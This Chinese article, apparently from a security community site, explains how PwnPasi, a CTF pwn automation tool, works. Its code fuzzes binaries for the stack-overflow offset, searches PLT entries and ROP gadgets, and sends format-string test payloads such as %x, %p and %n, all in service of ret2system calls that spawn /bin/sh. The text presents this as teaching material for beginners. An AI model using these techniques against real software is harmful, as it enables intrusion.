





# PwnPasi技术实现详解：PWN自动化漏洞利用工具-先知社区

> **来源**: https://xz.aliyun.com/news/17353  
> **文章ID**: 17353

---

# 前言

在二进制漏洞挖掘和利用（Pwn）领域，手动分析和利用漏洞往往耗时且复杂。为了提高效率，自动化工具应运而生。PwnPasi 是一款基于 Python 的自动化漏洞利用工具，旨在帮助安全研究人员快速识别和利用常见的二进制漏洞，如栈溢出、格式化字符串漏洞等。本文将详细介绍 PwnPasi 的技术实现，包括如何自动识别溢出边界大小、自动识别漏洞类型、自动识别格式化字符串漏洞以及自动绕过 Canary 防护。

# 自动识别溢出边界大小

在栈溢出漏洞利用中，确定溢出所需的填充字符数（padding）是关键步骤之一。PwnPasi 通过以下步骤自动识别溢出边界大小：

## 测试栈溢出漏洞

PwnPasi 通过向目标程序发送逐步增加的字符序列来测试是否存在栈溢出漏洞。具体步骤如下：

初始化字符序列：从字符 'A' 开始，逐步增加字符序列的长度。

发送输入：将字符序列发送给目标程序，并监控程序的返回码。

检测崩溃：如果程序返回码为 -11（即段错误），则说明程序发生了栈溢出，此时记录当前的字符数作为溢出边界大小。

```
def Test_Stack_Overflow(program, bit):
    char = 'A'
    padding = 0

    while True:
        input_data = char * (padding + 1)
        process = subprocess.Popen([program], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        stdout, stderr = process.communicate(input=input_data.encode())

        if process.returncode == -11:
            padding = padding + 8 if bit == 64 else padding + 4
            print(f"检测到栈溢出漏洞，测试字符数为: \033[31m{padding}\033[0m")
            return padding
        else:
            padding += 1

        if padding > 10000:
            print("未检测到栈溢出漏洞，测试字符数超过 10000")
            return 0
```



PwnPasi 还允许用户通过命令行参数指定溢出边界大小，从而跳过自动检测步骤。

```
python pwnpasi.py -l babypwn -f 112
```



# 自动识别漏洞类型

PwnPasi 能够自动识别目标程序的漏洞类型，包括栈溢出、格式化字符串漏洞等。

## 自动识别函数

在漏洞利用过程中，识别目标程序中的关键函数（如 system、puts、write 等）是非常重要的。PwnPasi 通过以下步骤自动识别目标程序中的关键函数：

### 使用 objdump 分析 PLT 表

PwnPasi 使用 objdump 工具分析目标程序的 PLT 表，识别其中的关键函数地址。

执行 objdump 命令：通过 objdump -d 命令反汇编目标程序，并将结果保存到文件中。解析反汇编结果：从反汇编结果中提取关键函数的地址

```
def Objdump_Scan(program):
    os.system("objdump -d " + program + " > Objdump_Scan.txt 2>&1")
    target_functions = ["write", "puts", "printf", "main", "system", "backdoor", "callsystem"]
    function_addresses = {}
    found_functions = []

    with open("Objdump_Scan.txt", "r") as file:
        lines = file.readlines()

    for line in lines:
        for func in target_functions:
            if f"<{func}@plt>:" in line or f"<{func}>:" in line:
                address = line.split()[0].strip(":")
                function_addresses[func] = address
                found_functions.append(func)
                print(f"{func} 函数存在，地址为: \033[31m{address}\033[0m")
                break

    return function_addresses
```

### 设置函数标志

PwnPasi 会根据识别到的函数地址，设置相应的标志位，以便后续利用。

```
def set_Function_Flag():
    target_functions = ["write", "puts", "printf", "main", "system", "backdoor", "callsystem"]
    function_flags = {func: 0 for func in target_functions}

    with open("Objdump_Scan.txt", "r") as file:
        lines = file.readlines()

    for line in lines:
        for func in target_functions:
            if f"<{func}@plt>:" in line or f"<{func}>:" in line:
                function_flags[func] = 1
                break

    return function_flags
```



### 识别函数后的利用

根据识别到的函数，PwnPasi 会选择合适的利用方式。例如，如果识别到 system 函数和 /bin/sh 字符串，PwnPasi 会尝试直接调用 system("/bin/sh") 来获取 shell

```
if system == 1 and bin_sh == 1:
    if bit == 32:
        ret2_system_x32(program, libc, padding, libc_path)
    if bit == 64:
        ret2_system_x64(program, libc, padding, pop_rdi_addr, other_rdi_registers, ret_addr, libc_path)
```

## 检查程序保护机制

PwnPasi 使用 checksec 工具检查目标程序的保护机制，如 RELRO、Stack Canary、NX、PIE 等。根据检查结果，工具会判断是否存在栈溢出漏洞或格式化字符串漏洞。

```
def Information_Collection(program):
    os.system("checksec " + program + " > Information_Collection.txt 2>&1")
    file_path = "Information_Collection.txt"

    with open(file_path, 'r') as f:
        content = f.readlines()
    result = {}
    arch_match = re.search(r"Arch:\s+(\S+)", "".join(content))

    if arch_match:
        arch = arch_match.group(1)
        if '64' in arch:
            result['bit'] = 64
        elif '32' in arch:
            result['bit'] = 32

    keys = ['RELRO', 'Stack', 'NX', 'PIE', 'Stripped', 'RWX']
    for key in keys:
        for line in content:
            if key in line:
                result[key] = line.split(":")[1].strip()

    return result
```



# 自动识别格式化字符串漏洞

格式化字符串漏洞是一种常见的漏洞类型，PwnPasi 通过以下步骤自动识别并利用该漏洞：

## 检测格式化字符串漏洞

PwnPasi 通过向目标程序发送一系列格式化字符串测试用例，检测程序是否输出内存地址或崩溃，从而判断是否存在格式化字符串漏洞。

```
def detect_format_string_vulnerability(program):
    TEST_CASES = [
        b"%x" * 20,
        b"%p" * 20,
        b"%s" * 20,
        b"%n" * 5,
        b"AAAA%x%x%x%x",
        b"%99999999s",
    ]

    MEMORY_PATTERN = re.compile(r'(0x[0-9a-fA-F]+)')
    vulnerable = False
    for case in TEST_CASES:
        try:
            proc = subprocess.Popen([program], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            stdout, stderr = proc.communicate(input=case, timeout=2)

            if MEMORY_PATTERN.search(stdout.decode()):
                print(f"[!]疑似漏洞: 测试用例 '\033[31m{case}\033[0m' 输出了内存地址")
                vulnerable = True

            if proc.returncode != 0:
                print(f"[!]程序崩溃: 测试用例 '\033[31m{case}\033[0m' 导致返回码 \033[31m{proc.returncode}\033[0m")
                vulnerable = True

        except subprocess.TimeoutExpired:
            print(f"[!]测试用例 '\033[31m{case}\033[0m' 导致超时，可能存在拒绝服务漏洞")
            vulnerable = True

    return vulnerable
```



# 自动构建 ROP 链

ROP（Return-Oriented Programming）是一种常见的漏洞利用技术，通过组合程序中的 gadget 来执行任意代码。PwnPasi 能够自动识别目标程序中的 gadget 并构建 ROP 链

## 查找 ROP Gadget

PwnPasi 使用 ropper 工具查找目标程序中的 ROP gadget，如 pop rdi, pop rsi, ret 等。

具体步骤如下：执行 ropper 命令：通过 ropper 工具查找目标程序中的 gadget，并将结果保存到文件中。

解析 gadget 结果：从结果中提取关键 gadget 的地址。

```
def set_x64_Rop(program):
    os.system("ropper --file " + program + " --search 'pop rdi' > ropper.txt --nocolor 2>&1")
    os.system("ropper --file " + program + " --search 'pop rsi' >> ropper.txt --nocolor 2>&1")
    os.system("ropper --file " + program + " --search 'ret' >> ropper.txt --nocolor 2>&1")

    pop_rdi_addr = None
    pop_rsi_addr = None
    ret_addr = None
    other_rdi_registers = None
    other_rsi_registers = None

    with open("ropper.txt", "r") as file:
        lines = file.readlines()

    for line in lines:
        if '[INFO]' in line:
            continue
        if "pop rdi;" in line and "pop rdi; pop" in line:
            pop_rdi_addr = line.split(":")[0].strip()
            print(f"pop rdi 指令存在，地址为: \033[31m{pop_rdi_addr}\033[0m")
            other_rdi_registers = 1

        elif "pop rdi; ret;" in line:
            pop_rdi_addr = line.split(":")[0].strip()
            print(f"pop rdi 指令存在，地址为: \033[31m{pop_rdi_addr}\033[0m")
            other_rdi_registers = 0

        elif "pop rsi;" in line and "pop rsi; pop" in line:
            pop_rsi_addr = line.split(":")[0].strip()
            print(f"pop rsi 指令存在，地址为: \033[31m{pop_rsi_addr}\033[0m")
            other_rsi_registers = 1

        elif "pop rsi; ret;" in line:
            pop_rsi_addr = line.split(":")[0].strip()
            print(f"pop rsi 指令存在，地址为: \033[31m{pop_rsi_addr}\033[0m")
            other_rsi_registers = 0

        elif "ret" in line and "ret " not in line:
            ret_addr = line.split(":")[0].strip()
            print(f"ret 指令存在，地址为: \033[31m{ret_addr}\033[0m")

    return pop_rdi_addr, pop_rsi_addr, ret_addr, other_rdi_registers, other_rsi_registers
```

在识别到所需的 gadget 后，PwnPasi 会根据漏洞类型和利用目标自动构建 ROP 链

除此之外，pwnpasi还能自动识别canary防护并绕过

# 项目地址

```
https://github.com/heimao-box/pwnpasi
```

pwnpasi 是一款专为CTF PWN方向入门基础题目开发设计的自动化工具，旨在帮助新手小白快速识别和利用32位和64位程序中的栈溢出漏洞与格式化字符串漏洞。该工具能够自动判断溢出字符数，自动识别格式化字符串漏洞，自动识别程序调用的动态链接库，并生成相应的ROP链以利用漏洞。支持多种利用方式，包括调用system后门函数、写入shellcode、puts函数ROP、write函数ROP以及syscall ROP，格式化字符串利用，可自动识别并绕过PIE防护与canary防护。此外，工具还具备本地和远程利用功能，并集成了LibcSearcher库，用于在没有提供libc地址的情况下自动搜索合适的libc版本
